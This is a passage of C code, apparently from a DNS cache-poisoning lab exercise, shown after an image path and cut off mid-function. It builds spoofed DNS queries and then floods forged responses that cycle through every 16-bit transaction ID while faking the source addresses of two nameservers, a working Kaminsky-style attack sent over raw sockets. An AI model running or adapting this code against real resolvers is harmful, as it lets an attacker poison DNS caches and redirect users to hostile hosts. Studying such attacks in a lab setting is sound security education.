 ```c

    // Modify the name in the question field (offset=41)
    memcpy(ip_req+41, name , 5);
    send_dns_request(ip_req, n_req);

    /* Step 2. Send many spoofed responses to the targeted local DNS server,
               each one with a different transaction ID. */
    
    // Modify the name in the question field (offset=41)
    memcpy(ip_resp+41, name, 5);
    // Modify the name in the answer field (offset=64)
    memcpy(ip_resp+64, name , 5);

    send_dns_response(ip_resp, n_resp);
    
  }
}

/* Use for sending DNS request.
 * Add arguments to the function definition if needed.
 * */
void send_dns_request(unsigned char *packet, int pkt_size)
{
  printf("Sending Spoofed Query!\n");
  send_raw_packet(packet, pkt_size);
}


/* Use for sending forged DNS response.
 * Add arguments to the function definition if needed.
 * */
void send_dns_response(unsigned char *packet, int pkt_size)
{
  char ns[15] = "199.43.133.53";
  char ns2[15] = "199.43.135.53";

  for (unsigned short id = 0; id < 65535; id++) {
    // Modify the transaction ID field (offset=28)
    unsigned short id_net_order = htons(id);
    memcpy(packet+28, &id_net_order, 2);

    // Copy IP address (offset=12)
    int ip_address = (int) inet_addr(ns);
    memcpy(packet+12, (void *) &ip_address, 4);
    send_raw_packet(packet, pkt_size);

    // Copy IP address (offset=12)
    int ip_address2 = (int) inet_addr(ns2);
    memcpy(packet+12, (void *) &ip_address2, 4);
    send_raw_packet(packet, pkt_size);
  }
}


/* Send the raw packet out 
 *    buffer: to contain the entire IP packet, with everything filled out.
 *    pkt_size: the size of the buffer.
 * */
void send_raw_packet(char * buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable = 1;

```